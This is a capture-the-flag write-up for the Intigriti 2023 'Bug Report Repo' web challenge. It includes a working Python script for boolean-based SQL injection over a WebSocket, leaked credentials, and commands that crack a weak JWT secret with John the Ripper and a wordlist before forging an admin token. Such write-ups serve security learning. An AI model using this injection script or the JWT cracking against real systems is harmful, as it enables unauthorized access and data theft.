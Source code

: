 ```yaml
---
title: Intigriti CTF 2023 Writeup [WEB]
author: H0j3n
date: 2023-11-19 00:00:00
categories: [ctf]
tags: [ctf,writeup]
render_with_liquid: false
---
```


![](https://raw.githubusercontent.com/H0j3n/H0j3n.github.io/master/assets/img/uploads/13_intigritictf_2023/intigriti_1.png)

Link to archive challenges: 

- [https://github.com/sajjadium/ctf-archives/tree/main/ctfs/1337UP/2023](https://github.com/sajjadium/ctf-archives/tree/main/ctfs/1337UP/2023)

# Category : Web

## Web : Bug Report Repo

![](https://raw.githubusercontent.com/H0j3n/H0j3n.github.io/master/assets/img/uploads/13_intigritictf_2023/intigriti_2.png)

Browsing the web challenge, we will encounter with a page that show the "Bug Reports". There is one visible search box that we can use to check the report **status** by using **BUG ID**

![](https://raw.githubusercontent.com/H0j3n/H0j3n.github.io/master/assets/img/uploads/13_intigritictf_2023/intigriti_3.png)

When we enter `BUG ID == 1` we can see the page highligted the first row but where is the user `Alice` coming from? Probably its query something behind this. 

![](https://raw.githubusercontent.com/H0j3n/H0j3n.github.io/master/assets/img/uploads/13_intigritictf_2023/intigriti_4.png)

How about if we try to insert single quote `'` instead? We got an error? Is there SQL Injection involved in here?

![](https://raw.githubusercontent.com/H0j3n/H0j3n.github.io/master/assets/img/uploads/13_intigritictf_2023/intigriti_5.png)

Let's try put a custom query to make it correct query. 

**Correct Response**

```cs
1 OR 1=1
```

![](https://raw.githubusercontent.com/H0j3n/H0j3n.github.io/master/assets/img/uploads/13_intigritictf_2023/intigriti_6.png)

**Wrong Response**

```cs
1 AND 1=2
```

![](https://raw.githubusercontent.com/H0j3n/H0j3n.github.io/master/assets/img/uploads/13_intigritictf_2023/intigriti_7.png)

Since we know it involve **SQL INJECTION**, next step is to find where is the flag located? It was mentioned in the challenge's description that it received a **CRITICAL** bug but it was not shown in the system. When we try to check on `BUG ID == 11` we receive an unusual user in the response.

![](https://raw.githubusercontent.com/H0j3n/H0j3n.github.io/master/assets/img/uploads/13_intigritictf_2023/intigriti_8.png)

Probably we will get hints when we look into this user's description. To do that we need exploit the **SQL Injection** and extract the description of bug id equal to 1. We can create an automation script to extract it. We also identified that its using *WEBSOCKETS* for the request.

![](https://raw.githubusercontent.com/H0j3n/H0j3n.github.io/master/assets/img/uploads/13_intigritictf_2023/intigriti_9.png)

Below are the full scripts to extract the description of `BUGID == 11`

```python
import string, base64
from websockets.sync.client import connect

def sqli(ws,q_left,chars):	
    data = """{"id":"11 and (%s='%s')"}""" % (q_left, chars)
    ws.send(data)
    temp = ws.recv()
    return "Open" in temp

def exploit_websockets(TARGET):
    dumped = ""
    with connect(TARGET) as ws:
        sql_template = "SELECT substr(description, %s, 1)"
        i = 1
        while True:
            for chars in string.printable:
                if sqli(ws,sql_template%i,chars):
                    dumped += chars
                    print(dumped)
                    i+=1
                    break
            return
        
if __name__ == "__main__":
    TARGET = "wss://bountyrepo.ctf.intigriti.io/ws"
    exploit_websockets(TARGET)
```

Extracted : `crypt0:c4tz on /4dm1n_z0n3, really?`

Browsing `/4dm1n_z0n3` will get us into a secure admin login page. 

![](https://raw.githubusercontent.com/H0j3n/H0j3n.github.io/master/assets/img/uploads/13_intigritictf_2023/intigriti_10.png)

Using the credentials we found will get us into this page. Sadly our user `crypt0` don't have the permission to view the config key.

![](https://raw.githubusercontent.com/H0j3n/H0j3n.github.io/master/assets/img/uploads/13_intigritictf_2023/intigriti_11.png)

When we look at the cookies, it looks like **JWT** and yes it is. It using `alg == HS256`

```
eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJpZGVudGl0eSI6ImNyeXB0MCJ9.zbwLInZCdG8Le5iH1fb5GHB5OM4bYOm8d5gZ2AbEu_I
```

![](https://raw.githubusercontent.com/H0j3n/H0j3n.github.io/master/assets/img/uploads/13_intigritictf_2023/intigriti_12.png)

By reading in the [Hacktricks](https://book.hacktricks.xyz/pentesting-web/hacking-jwt-json-web-tokens#change-the-algorithm-rs256-asymmetric-to-hs256-symmetric-cve-2016-5431-cve-2016-10555) we probably need to crack the JWT and find the secret key? Let's give it a try using [jwtcrack](https://github.com/Sjord/jwtcrack)

> `Algorithm HS256` : Uses the secret key to sign and verify each message
{: .prompt-info }

```
# jwt2john
./jwt2john.py "eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJpZGVudGl0eSI6ImNyeXB0MCJ9.zbwLInZCdG8Le5iH1fb5GHB5OM4bYOm8d5gZ2AbEu_I" > hash

# john
john hash --wordlist=/usr/share/wordlists/rockyou.txt
```

Found : `catsarethebest`

Next, we can easily modify our **JWT** in [here](https://jwt.io/) with the secret key we found.

![](https://raw.githubusercontent.com/H0j3n/H0j3n.github.io/master/assets/img/uploads/13_intigritictf_2023/intigriti_13.png)

And we get the flag!

![](https://raw.githubusercontent.com/H0j3n/H0j3n.github.io/master/assets/img/uploads/13_intigritictf_2023/intigriti_14.png)

Flag : `INTIGRITI{w3b50ck37_5ql1_4nd_w34k_jw7}`